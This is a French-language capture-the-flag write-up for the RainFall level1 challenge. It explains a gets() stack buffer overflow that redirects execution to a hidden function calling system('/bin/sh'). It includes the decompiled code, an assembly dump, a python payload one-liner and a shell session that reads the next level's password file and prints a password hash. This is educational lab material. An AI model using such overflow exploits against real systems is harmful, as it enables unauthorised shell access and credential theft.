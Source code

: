 # **Level 1**

Pour le `level1` nous avons un executable qui fais juste appelle a gets et il y a aussi une fonction pas appeler qui lance un `system("/bin/sh")`

```
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}



void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

> Avec scp et un decompiler on recupere le code decompiler de l'executable
 
Le but ici va etre de faire un buffer overflow grace a gets pour modifier le register `eip`, celui qui designe la ou est situee la prochaine instruction

Pour ce faire la theorie n'est pas tres complique, voici un magnifique schema explicatif

![Tout va bien tu ecrit dans la stack](overflow1.png)

En temps normal tu descend ton pointeur `esp` suffisament pour que tout tes caracteres rentre dans la stack, sauf que gets ne verifie pas si tu ecris plus que prevu, donc tu peux continuer a ecrire

![C'est les problemes](overflow2.png)

De cette facon en continuant a ecrire tu peux remonter jusqu'au contenue de `eip`, la prochaine instruction pour la remplacer.

Maintenant revenons sur le header qui se lance a chaque connexion, car tout ca est rendu simple par le fais que des protections sont desactiver, tout d'abord

![Randomize_va_space](randvaspace.png)

Ce fichier permet de controller l'activation et la desactivation de l'ASLR, un outils permettant de randomizer les addresses memoire pour rendre plus difficiles la comprehension du code et ainsi plus difficilemet savoir a quoi set `eip` mais qui est ici desactiver

![file settings](headervl1.png)

RELRO (Relocation Read-Only): est une protection de la relocation table aui permet de securiser les liaisons dynamiques, ici desactivee

STACK CANARY: est une protection permettant de detecter les buffer overflow en mettant une valeur dans la stack qui sera modifier en cas de BO, ici desactiver

NX : permet de dire si la stack est executable ou pas, ici cela est desactiver donc on ne peux pas utiliser la stack pour executer du code

PIE (Position Independent Executable) : Cela indique si l'exécutable est compilé en tant qu'exécutable indépendant de la position, ce qui rend plus difficile l'exploitation des vulnérabilités via des attaques de réadressage, ici desactiver

Maintenant que tout ca est dit, voila comment exploiter cette faille, tout d'abord on cherche a savoir ou on voudra aller apres notre buffer overflow donc on affiche l'assembleur de la fonction run

```
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```

Et on en deduis au'il faut faire pointer `eip` sur le debuts de la fonction `0x008048444`
Encuite on construit notre `payload` a envoyer:

```
python -c "print('a'*76+'\x44\x84\x04\x08')" > /var/crash/lvl1
```

> On peux verifier la taille du payload en testant et regardant quand `eip est overwrite`, ici a partir du `77eme` caractere

> On ecrit la destination a l'envers parce que les adrresses sont en little endian

On execute en passant dans stdin notre fichier 

> On utilise cat - pour envoyer notre payload sans EOF a la fin ce qui fermerait immediatement le shell ouvert avec system

```
level1@RainFall:~$ cat /var/crash/lvl1 - | ./level1  
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

> ### NEXT : [Level 2](/level2/resources/README.md)
